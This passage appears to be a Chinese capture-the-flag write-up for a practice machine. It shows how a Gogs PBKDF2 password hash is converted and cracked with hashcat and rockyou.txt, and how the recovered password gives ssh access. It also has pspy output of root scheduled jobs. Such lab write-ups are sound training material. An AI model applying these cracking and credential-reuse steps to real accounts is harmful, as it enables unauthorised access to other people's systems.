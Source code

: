 ![](https://img.mi3aka.eu.org/2022/09/22e8089c163e746b785e8d6aa05a7c4d.png)

![](https://img.mi3aka.eu.org/2022/09/cd5cb7a4f3d83eba5f34d6e8dab400d2.png)

![](https://img.mi3aka.eu.org/2022/09/9f3e35004b6cf2286c2b85f0c1acdff7.png)

密码为`66c074645545781f1064fb7fd1177453db8f0ca2ce58a9d81c04be2e6d3ba2a0d6c032f0fd4ef83f48d74349ec196f4efe37`,随机数种子为`m7483YfL9K`,盐为`sO3XIbeW14`

加密方式如下

```go
func (u *User) EncodePasswd() {
	newPasswd := base.PBKDF2([]byte(u.Passwd), []byte(u.Salt), 10000, 50, sha256.New)
	u.Passwd = fmt.Sprintf("%x", newPasswd)
}
```

[PBKDF2 SHA256 hashcat解密](https://github.com/hashcat/hashcat/issues/1583)

`perl -e 'print pack ("H*", "66c074645545781f1064fb7fd1177453db8f0ca2ce58a9d81c04be2e6d3ba2a0d6c032f0fd4ef83f48d74349ec196f4efe37")' | base64`

>hashfile中的内容

`sha256:10000:c08zWEliZVcxNA==:ZsB0ZFVFeB8QZPt/0Rd0U9uPDKLOWKnYHAS+Lm07oqDWwDLw/U74P0jXQ0nsGW9O/jc=`

`hashcat -m 10900 --force hashfile rockyou.txt`

利用colab,成功爆破得到密码为`february15`

![](https://img.mi3aka.eu.org/2022/09/b0a5b9512b4b1201dea5c26149ff8d28.png)

成功使用`susanne:february15`登录ssh

![](https://img.mi3aka.eu.org/2022/09/19d1d99cc14222f73e32bb6a59827406.png)

---

测试了一下`gogs`那个rce没有成功

![](https://img.mi3aka.eu.org/2022/09/6a263609b9a8f35b5a6a7d23cba77517.png)

---

![](https://img.mi3aka.eu.org/2022/09/474c4e4302f84517169fae8d210a3637.png)

尝试了一下les提出的几个建议,都没有成功

`pspy`监控

```
2022/09/04 08:22:57 CMD: UID=111  PID=1446   | /usr/sbin/mysqld --daemonize --pid-file=/run/mysqld/mysqld.pid 
2022/09/04 08:22:57 CMD: UID=0    PID=1303   | /usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-triggers 
2022/09/04 08:23:01 CMD: UID=0    PID=90623  | /bin/bash -c cd /var/www/html && php artisan schedule:run >> /dev/null 2>&1 
2022/09/04 08:23:06 CMD: UID=0    PID=90633  | mysql laravel --execute TRUNCATE tasks 
```
